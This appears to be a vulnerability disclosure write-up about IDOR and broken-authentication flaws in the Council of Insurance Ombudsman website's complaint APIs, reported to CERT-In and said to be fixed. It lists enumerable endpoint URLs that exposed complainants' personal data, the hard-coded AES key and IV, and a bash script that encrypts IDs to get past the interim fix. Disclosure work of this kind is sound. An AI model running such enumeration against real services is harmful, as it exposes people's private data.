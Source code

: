 ```yaml
---
title: Council of Insurance Ombudsman CIOINS API Vulnerabilities 2024
date:
  created: 2025-08-13
  updated: 2025-08-13
---
```


Council of Insurance Ombudsman CIOINS website (<https://cioins.co.in>) had numerouos
vulnerabilities covering several OWASP TOP 10 categories in 2024. After reporting it
to CERT-in (they don't have a direct email for this (they denied this information in
the [RTI](../../rti/posts/cioins.md))), they simply masked the issue with bogus
encryption with key exposed in the front-end source code.

After a followup, a proper fix was implemented but with significant delay.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [FetchComplaintDetails](#1-fetchcomplaintdetails)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 2  | [RetrieveData](#2-retrievedata)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 3  | [FetchComplaints](#3-fetchcomplaints)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 4  | [encrypted FetchComplaintDetails](#4-fetchcomplaintdetails-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 5  | [encrypted RetrieveData](#5-retrievedata-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 6  | [encrypted FetchComplaints](#6-fetchcomplaints-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: CWE-73 External Control of File Name or Path, Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. FetchComplaintDetails

This API endpoint was vulnerable to IDOR (Insecure Direct Object Reference). By accepting a serially increasing complaint ID, this API provided complainant's name, mobile, complaint text, and policy number.

No sophisticated knowledge of curl tools needed. Simply opening this in the browser was sufficient.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74100&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74101&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74102&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74103&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74104&mode=ON
```

### 2. RetrieveData

By using the mobile number obtained in the above vulnerability, this API endpoint could be used to retrieve the complainant's details including name, email, address, and date of birth.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=$$$$$$$$$$
```

### 3. FetchComplaints

This API provided a list of complaints associated with a mobile number. It returned details such as complaint ID, status, and date of filing.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?mobile=$$$$$$$$$$
```

### $$ Bogus encryption

As per the timelines in the table above, payload was merely AES encrypted and decrypted using a key and initialization vector exposed in the front-end code. The script to do it locally is as following.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
KEY=38303830383038303830383038303830
IV=38303830383038303830383038303830
# KEY=8080808080808080
# IV=8080808080808080
decrypt() {
    echo $(echo -n "$1" | openssl enc -aes-128-cbc -base64 -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -e -aes-128-cbc -base64 -K "$KEY" -iv "$IV" -nosalt)
}

for i in "74101" "74102" ; do
    echo $i
    encrypt $i
    # URL encoding
    encrypt $i | jq -sRr @uri
done
```

??? note "Online encryption using emn178.github.io"
    <https://emn178.github.io/online-tools/aes/encrypt/>

    ![online](contents_cioins/encryption.jpg)

### 4. FetchComplaintDetails Encrypted Payload

The parameters are the same as in [FetchComplaintDetails](#1-fetchcomplaintdetails) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=evmr74Rz6KPWPjrGop6JVQ%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=tdTRukPbD1ADr581eavRWg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=54fjn5aez4hZzUb5CdphRg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=TOOqRpQioUbzVJK579jyNA%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=uRDIXscht1j4HcfI8vX6Sg%3D%3D&mode=ON
```

### 5. RetrieveData Encrypted Payload

The parameters are the same as in [RetrieveData](#2-retrievedata) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### 6. FetchComplaints Encrypted Payload

The parameters are the same as in [FetchComplaints](#3-fetchcomplaints) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### $$ Fix using OTP

After fixing, an OTP verification for every step of the process was added, i.e., an OTP is required for accessing each complaint.

```bash title="sample_script_fixed.sh" linenums="1"
time=$(date '+%F_%T')
curl 'https://cioins.co.in/Complaint/Track/FetchComplaintDetails' -X POST \
-H 'Cookie: .AspNetCore.Session=$$$$$$$$$$' \
--data-raw 'CompID=c1FQnlPmmmtf4mEnALGVyQ%3D%3D&mode=ON&inputOTP=GMvdPTixRnzYwJ%2BW%2BMy4iw%3D%3D' \
-o "complaint_$time.json" \
```
